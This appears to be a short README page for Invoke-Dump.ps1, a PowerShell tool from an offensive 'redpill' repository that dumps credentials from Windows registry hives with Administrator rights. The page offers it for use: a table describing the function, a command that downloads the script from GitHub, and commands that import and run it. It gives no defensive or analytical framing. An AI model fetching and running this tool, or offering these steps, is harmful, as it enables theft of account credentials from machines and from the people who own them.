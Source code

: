## Invoke-Dump.ps1

|Function name|Description|Privileges|Notes|Author|
|---|---|---|---|---|
|Invoke-Dump|Dump credentials from registry hives.|Administrator|[Screenshot](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Dump-Sam/Invoke-HiveDump.png)|<b><i>@_tmenochet</i></b>|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Sam/Invoke-Dump.ps1" -OutFile "Invoke-Dump.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Invoke-Dump.ps1" -Force
Invoke-Dump
```
